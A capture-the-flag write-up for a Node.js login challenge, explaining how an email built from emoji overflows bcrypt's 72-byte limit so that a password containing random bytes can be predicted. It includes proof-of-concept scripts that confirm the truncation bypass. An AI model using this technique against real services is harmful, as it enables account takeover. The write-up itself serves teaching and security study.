

# Passwordless (100pts) - by Ciaran

## Description


We have the code this time.

---

## Code Review


It’s typical containerized CTF code with:

- `Dockerfile`
- Node.js index file
- `package.json`
- Views in `.ejs` templates (basically HTML templates)

Let’s look deeper to see how everything works.

---

### Dockerfile


This tells us a few things:
- It’s a Node.js app
- Container port is **3000**
- **Most important:** `FLAG` is in ENV

Let’s see what the Node.js app is doing. As always, let’s map the sources first since it’s only a 156-line app. This will speed things up.

---

### Routes


So we got 7 routes. Some of them look very uninteresting, let’s rule them out one by one.

---

#### GET `/dashboard`


Loads the dashboard template after `restrict` is passed. Taking a look at the `dashboard.ejs` code, we now know this is where the flag lives.


`restrict` validates the user session.  
So we need to get a valid session first, then visit `/dashboard` and we’ll get the flag.

---

#### GET `/`

- Just redirects to `/dashboard`.

---

#### GET `/login`


If authenticated, it just redirects to dashboard. Moving on.

---

#### GET `/register`

Renders `register.ejs`, which just makes a POST request to `/user` with the email.


---

#### POST `/user`

This is the signup/registration logic. Let’s dig into this.



Flow looks like this:

```js
if (!req.body) return res.redirect('/login')
```
- Request body is mandatory.

```js
const nEmail = normalizeEmail(req.body.email)
```
- Email from the body is normalized and stored in `nEmail`.

```js
if (nEmail.length > 64) {
    req.session.error = 'Your email address is too long'
    return res.redirect('/login')
}
```
- `nEmail` can’t be longer than 64.
- `nEmail` is not used anywhere after that.

```js
const initialPassword = req.body.email + crypto.randomBytes(16).toString('hex')
```
- `initialPassword` = original email + 16 bytes of random string.  
(**This is interesting — password is very dependent on email, even though the last 16 bytes are cryptographically unguessable unless it’s the end of the world.**)

```js
bcrypt.hash(initialPassword, 10, function (err, hash) {
    if (err) return next(err)

    const query = "INSERT INTO users VALUES (?, ?)"
    db.run(query, [nEmail, hash], (err) => {
        if (err) {
            if (err.code === 'SQLITE_CONSTRAINT') {
                req.session.error = 'This email address is already registered'
                return res.redirect('/login')
            }
            return next(err)
        }

        // TODO: Send email with initial password

        req.session.message = 'An email has been sent with a temporary password for you to log in'
        res.redirect('/login')
    })
})
```

- `initialPassword` is then hashed using bcrypt and stored in the `users` table.  
- An email with this password is supposed to be sent to the user, but we don’t get that in a CTF.

From the looks of it, it feels like we need to guess the initial password. Let’s cover the remaining code.

---

#### POST `/session`


- This has the authentication logic.
- Takes email + password as input and passes to the authenticate function.


It queries the DB and uses parameterized statements. So **no SQLi of course**.  
FYI SQLi has been dead for a while in CTFs — haven’t seen it in quite some time.

---

## Interim Conclusion

So far the path to flag seems to be:
- Get the session by logging in with the password we need to guess  
- Then get the flag at `/dashboard`

A few important notes:
- A part of the password is **user controllable**  
- Bcrypt is used to hash the password

---

## Digging Deeper

Looking at the bcrypt documentation: https://www.npmjs.com/package/bcrypt


```
Per bcrypt implementation, only the first 72 bytes of a string are used. Any extra bytes are ignored when matching passwords. Note that this is not the first 72 characters. It is possible for a string to contain less than 72 characters, while taking up more than 72 bytes (e.g. a UTF-8 encoded string containing emojis). If a string is provided, it will be encoded using UTF-8.
```

So if the password is more than 72 bytes, then the rest of the bytes are ignored?  
And it’s not 72 chars — it can be emojis too. 1 emoji = 1 char but 4 bytes.  

So if we can use emojis in email, we could bypass that 64-char length check and control the password? **Sounds far-fetched.**  

There’s also this `normalize-email` library in the middle — not sure if it messes with emojis. **Let’s fucking try still.**

---

### Test with Emoji


```js
const normalizeEmail = require('normalize-email')
const bcrypt = require('bcrypt');
const crypto = require('crypto')

email = "😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂@gmail.com"
console.log("Email length is " + email.length)
const nEmail = normalizeEmail(email)
console.log("Normalized Email length is " + nEmail.length)

const byteLength = Buffer.byteLength(email, 'utf8');
console.log("Email byte length is " + byteLength)
```

A simple test confirms:
- We can use emoji  
- `normalize-email` doesn’t break it  
- We can overflow the 72-byte length  

Awesome.  

But will it actually work with `bcrypt.compareSync`? **Let’s validate that too.**  
We just need to create the password same as the original, hash it, and then supply only the first 72 bytes and compare hashes. **Let’s just fucking try it.**

---

### Test: Bcrypt Compare


```js
const normalizeEmail = require('normalize-email')
const bcrypt = require('bcrypt');
const crypto = require('crypto')

async function main() {
    email = "😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂😂@gmail.com"
    console.log("Email length is " + email.length)
    const nEmail = normalizeEmail(email)
    console.log("Normalized Email length is " + nEmail.length)

    const byteLength = Buffer.byteLength(email, 'utf8');
    console.log("Email byte length is " + byteLength)

    const initialPassword = email + crypto.randomBytes(16).toString('hex')
    const hash = await bcrypt.hash(initialPassword, 10)

    const buffer = Buffer.from(email);
    const first72Bytes = buffer.slice(0, 72);
    console.log(first72Bytes.toString())

    const match = bcrypt.compareSync(first72Bytes.toString(), hash)

    // Print the result
    console.log('Password match:', match);
}

main().catch(console.error);
```

And it clearly worked. ✅

---

## Exploit Steps

Now let’s just make those API calls and get the flag (if we can).  
We’ll use Node.js. It’s 3 steps actually:

1. Call `/user` with email  
2. Call `/session` with email + password (72 bytes) and save the session  
3. Call `/dashboard` with the session and read the flag from the response  

---

### Exploit


And we have it. 🎉 

I had to switch to Python as that’s just my natural language right now.  
Also the exploit code is attached here. Had to add randomization so it works on any iteration.

---

